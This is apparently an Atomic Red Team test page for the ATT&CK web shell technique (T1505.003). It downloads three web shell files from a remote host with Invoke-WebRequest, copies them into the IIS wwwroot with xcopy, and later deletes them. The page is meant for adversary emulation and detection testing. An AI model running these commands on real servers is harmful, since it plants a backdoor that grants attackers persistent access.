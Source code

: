# T1505.003 - Server Software Component: Web Shell
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1505/003)
<blockquote>

Adversaries may backdoor web servers with web shells to establish persistent access to systems. A Web shell is a Web script that is placed on an openly accessible Web server to allow an adversary to access the Web server as a gateway into a network. A Web shell may provide a set of functions to execute or a command-line interface on the system that hosts the Web server.(Citation: volexity_0day_sophos_FW)

In addition to a server-side script, a Web shell may have a client interface program that is used to talk to the Web server (e.g. [China Chopper](https://attack.mitre.org/software/S0020) Web shell client).(Citation: Lee 2013)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Web Shell Written to Disk](#atomic-test-1---web-shell-written-to-disk)


<br/>

## Atomic Test #1 - Web Shell Written to Disk
This test simulates an adversary leveraging Web Shells by simulating the file modification to disk.
Idea from APTSimulator.
cmd.aspx source - https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx

**Supported Platforms:** Windows


**auto_generated_guid:** 0a2ce662-1efa-496f-a472-2fe7b080db16





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| web_shell_path | The path to drop the web shell | string | C:&#92;inetpub&#92;wwwroot|
| web_shells | Path of Web Shell | path | PathToAtomicsFolder&#92;T1505.003&#92;src|


#### Attack Commands: Run with `command_prompt`! 


```cmd
xcopy /I /Y "#{web_shells}" #{web_shell_path}
```

#### Cleanup Commands:
```cmd
del #{web_shell_path}\b.jsp /q >nul 2>&1
del #{web_shell_path}\tests.jsp /q >nul 2>&1
del #{web_shell_path}\cmd.aspx /q >nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Web shell must exist on disk at specified location (#{web_shells})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{web_shells}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "#{web_shells}" -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1505.003/src/b.jsp" -OutFile "#{web_shells}/b.jsp"
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1505.003/src/tests.jsp" -OutFile "#{web_shells}/tests.jsp"
Invoke-WebRequest "https://rangegogs.cnd.ca.gov/Range/atomic-red-team/raw/master/atomics/T1505.003/src/cmd.aspx" -OutFile "#{web_shells}/cmd.aspx"
```




<br/>
